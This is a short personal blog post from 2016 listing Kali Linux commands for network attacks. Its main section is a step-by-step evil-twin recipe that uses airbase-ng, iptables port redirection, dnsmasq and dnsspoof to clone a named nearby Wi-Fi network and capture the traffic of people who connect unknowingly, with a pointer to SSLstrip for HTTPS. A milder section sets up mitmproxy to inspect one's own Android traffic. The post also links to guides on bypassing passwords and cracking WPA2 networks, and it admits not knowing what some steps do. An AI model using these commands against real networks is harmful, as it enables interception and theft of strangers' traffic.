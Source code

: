 Title: Hacking
Date: 2016-01-18 23:00
Category: Linux
Tags: hacking, kali, security, android, mitm, linux
Slug: hacking
Authors: Romain Pellerin
Summary: A handful of useful commands about hacking

This brief article solely contains a few lines of commands, to perform pentesting or network monitoring. It's basically something I might use in the future on my networks or apps, so I'm writing it down as a reminder. I thought it may help other people that's why I decided to put it online. Of course the preferred operating system is [Kali](https://www.kali.org/) (or any Debian-based distro).

**WARNING: only for use on your own networks and devices, the law strictly forbids it otherwise.**

# Fake AP (access point)

This technique is about creating a fake access point, similar to one already existing, so that people's computers will try to connect to your fake AP automatically, without them noticing.

1. Deactivate any firewall first
2. Get super user rights

        :::bash
        sudo su

3. Install some required packages if not already present

        :::bash
        aptitude install dnsmasq aircrack-ng

4. List the existing network interfaces and turn one of them into monitor mode

        :::bash
        airmon-ng
        airmon-ng start wlan0 # wlan0 is usually Wifi

5. Start monitoring available networks around, and make a quick test

        :::bash
        airodump-ng mon0
        aireplay-ng --test mon0 # Test

6. Choose one network and fake it

        :::bash
        airbase-ng --essid 'HG655D-1BFF19' -c 7 -W 1 -Z 2 -v mon0 # Fake WPA AP

7. Enable packet forwarding

        :::bash
        echo 1 > /proc/sys/net/ipv4/ip_forward
        iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
        iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 8080

8. Write what follows in `/etc/dnsmasq.conf`:

        :::text
        interface=at0
        dhcp-range=192.168.0.50,192.168.0.150,12h

9. Do some other things for which I can't recall the usefulness right now (but I promise to update the article as soon as I do):

        :::bash
        ifconfig at0 192.168.0.1 up
        dnsmasq # pkill dnsmasq if needed

10. Write what follows in `/tmp/tests.conf` (`<tab>` means you have to hit the tab key):

        :::bash
        192.168.0.1<tab>*

11. Run `dnsspoof`:

        :::bash
        dnsspoof -i wlan0 -f /tmp/tests.conf

12. Finally, start a webserver (Apache or using Python, or whatever)

        :::bash
        python3 -m http.server 8080


And you're good! All the clear traffic will pop up right in front of your eyes. To deal with HTTPS connections, have a look at [SSLstrip](http://www.thoughtcrime.org/software/sslstrip/).

Encountering problems with DNSspoof? [Have a look there.](https://forums.hak5.org/index.php?/topic/29166-dnsspoof-problem/)

[More information about faking APs.](http://www.backtrack-linux.org/forums/showthread.php?t=61240)

[Another interesting tutorial ("Kali Linux Evil Wireless Access Point").](https://www.offensive-security.com/kali-linux/kali-linux-evil-wireless-access-point/)

# MITM

This is a commonly used technique to "put yourself" between a target user and an access point, in order to see all the traffic this user might send and receive.

## MITM on Android

On Android, it has the advantage of allowing you to monitor your outcoming traffic, which is useful when debugging your own apps.

1. Grant yourself super user rights and enable packet forwarding on the right interface (here `eth0` which is the Ethernet connection):

        :::bash
        sudo su
        sysctl -w net.ipv4.ip_forward=1
        iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
        iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080

3. Install the required dependencies and mitmproxy:

        :::bash
        apt-get install python-pip python-dev libffi-dev libssl-dev libxml2-dev libxslt1-dev libjpeg8-dev zlib1g-dev
        easy_install mitmproxy

    You can as well [download mitmproxy and install it manually](http://docs.mitmproxy.org/en/stable/install.html#installation-on-ubuntu).


4. Run it:

        :::bash
        mitmproxy -T --no-upstream-cert --host [-p 8080] # -p is optional as 8080 is the default port

    The argument `-T` is for *transparent*. If you don't go for transparent, then the 3 lines about packet forwarding (point 1.) are useless (or maybe not, I can't remember).

5. On your Android device:
    1. Open the current Wifi settings (long-press on the connected network).
        * If you decided to do transparent proxying (see above), set proxy to your computer's IP and port 8080, like: `192.168.1.2:8080`
        * If you decided not to do transparent proxying (see above), don't set the proxy and instead set the IP to be static rather than using DHCP. Then write your computer's IP as the gateway.
    2. Go to the website [mitm.it](http://mitm.it) and click on the Android icon to install the certificate. If this doesn't work (website unreachable), push the certificate manually from your computer (run the following command from your computer):

            ::bash
            adb push ~/.mitmproxy/mitmproxy-ca-cert.cer /sdcard/Download

Then you'll see the traffic in your terminal going through!

This part has been inspired from [this article](https://medium.com/@rotxed/how-to-debug-http-s-traffic-on-android-7fbe5d2a34).

# Other tools

- [mitmAP - A python program, to create a fake AP, and sniff data](https://github.com/xdavidhu/mitmAP)

# Other related topics

- [How to: Reset user password in Windows 7/8/8.1](http://www.gvrachliotis.net/2013/10/how-to-reset-user-password-in-windows.html)
- [Les dénies de services](https://www.nolimitsecu.fr/les-denis-de-service/)
- [Wifi ouvert – Attention aux faux hotspot ! (+ une démo avec un module Arduino)](http://korben.info/wifi-ouvert-attention-aux-faux-hotspot-demo-module-arduino.html)
- [How I Cracked a Keylogger and Ended Up in Someone's Inbox](https://www.trustwave.com/Resources/SpiderLabs-Blog/How-I-Cracked-a-Keylogger-and-Ended-Up-in-Someone-s-Inbox/)
- [Stalking your Facebook friends on Tinder](https://defaultnamehere.tumblr.com/post/147747146865/stalking-your-facebook-friends-on-tinder)
- [Professionally Evil: This is NOT the Wireless Access Point You are Looking For](https://blog.secureideas.com/2013/05/professionally-evil-this-is-not.html)
- [Phreaklets: Cracking WPA2 Enterprise wireless networks with FreeRADIUS WPE, hostapd and asleap & John the Ripper](http://phreaklets.blogspot.kr/2013/06/cracking-wireless-networks-protected.html?m=1)
- [TP Mobilité et réseaux sans fil : réseau sans fil sécurisé et monitoré + mobilité IPv6](http://www.guiguishow.info/2016/10/12/tp-mobilite-et-reseaux-sans-fil-reseau-sans-fil-securise-et-monitore-mobilite-ipv6/)
- [Learn from your attackers – SSH HoneyPot](https://www.robertputt.co.uk/2016/11/28/learn-from-your-attackers-ssh-honeypot/)
- [Alexsey’s TTPs](https://medium.com/@chrismcnab/alexseys-ttps-1204d9050551)
- [KON-BOOT](http://www.piotrbania.com/all/kon-boot/)
- [Rickroller Spotify !](https://korben.info/rickroller-spotify.html)
- [Null Byte](https://null-byte.wonderhowto.com/)
- [Tabnabbing: A New Type of Phishing Attack](http://www.azarask.in/blog/post/a-new-type-of-phishing-attack/)
- [About rel=noopener](https://mathiasbynens.github.io/rel-noopener/)
